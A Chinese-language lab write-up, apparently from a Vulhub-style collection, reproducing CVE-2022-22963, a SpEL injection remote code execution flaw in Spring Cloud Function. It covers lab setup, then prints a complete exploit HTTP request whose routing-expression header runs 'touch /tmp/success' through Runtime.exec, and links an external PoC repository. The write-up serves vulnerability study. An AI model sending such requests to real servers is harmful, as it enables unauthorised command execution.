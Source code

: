 # Spring Cloud Function SpEL表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub执行如下命令启动一个使用Spring Cloud Function 3.2.2编写的服务器：

```
docker-compose up -d
```

服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行`uppercase`函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![image-20220412163215931](./images/image-20220412163215931.png)

`touch /tmp/success`已经成功被执行：

<img src="https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412163527748.png" alt="image-20220412163527748" style="zoom:50%;" />

## 漏洞POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE

